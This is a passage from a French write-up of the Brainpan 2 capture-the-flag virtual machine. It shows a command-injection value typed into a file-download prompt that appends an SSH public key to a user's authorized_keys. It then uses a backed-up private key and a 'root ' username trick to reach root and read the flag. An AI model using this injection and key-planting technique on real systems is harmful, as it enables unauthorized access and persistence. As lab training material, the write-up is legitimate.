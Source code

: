 Solution : on envoie nos clés publiques / privées sur le serveur puis on exploite `VIEW` pour ajouter la clé publique dans les clés autorisées de `puck` :

```
                          >> VIEW
    ENTER FILE TO DOWNLOAD: /dev/null;cat /tmp/id_rsa.pub >> /home/puck/.ssh/authorized_keys
```

On se connecte au serveur SSH local (notez que l'adresse sur laquelle écoute le serveur SSH est une autre blague) :  

```console
root # ssh puck@127.0.1.1 -p 2222 -i /tmp/id_rsa 
Enter passphrase for key '/tmp/id_rsa': 
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

puck@brainpan2:~$ id
uid=1001(puck) gid=1001(puck) groups=1001(puck),50(staff)
```

That's all folks !
------------------

C'est bien on a maintenant les droits de `puck`... So what ? Il a un dossier caché `.backup` :  

```
./.backup:
total 28
drwxr-xr-x 3 puck puck 4096 Nov  5 09:44 .
drwx------ 4 puck puck 4096 Nov  5 09:45 ..
-rw------- 1 puck puck  395 Nov  5 09:43 .bash_history
-rw-r--r-- 1 puck puck  220 Nov  4 14:18 .bash_logout
-rw-r--r-- 1 puck puck 3392 Nov  4 14:18 .bashrc
-rw-r--r-- 1 puck puck  675 Nov  4 14:18 .profile
drwx------ 2 puck puck 4096 Nov  4 14:15 .ssh

./.backup/.ssh:
total 16
drwx------ 2 puck puck 4096 Nov  4 14:15 .
drwxr-xr-x 3 puck puck 4096 Nov  5 09:44 ..
-rw------- 1 puck puck 1675 Nov  4 14:15 id_rsa
-rw-r--r-- 1 puck puck  396 Nov  4 14:15 id_rsa.pub
```

Et dans l'historique sauvegardé :

```bash
ssh -l "root " brainpan2
(...)
mkdir .backup
mv .ssh .bash* .backup
```

Utilisons donc cette fameuse clé de backup :  

```console
puck@brainpan2:~$ ssh -l "root " 127.0.1.1 -p 2222 -i .backup/.ssh/id_rsa
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

root @brainpan2:~# id
uid=0(root ) gid=0(root ) groups=0(root )
root @brainpan2:~# cat  /root/flag.txt 

                          !!! CONGRATULATIONS !!!

                 You've completed the Brainpan 2 challenge! 
                 Or have you...? 

                 Yes, you have! Pat yourself on the back. :-)

```
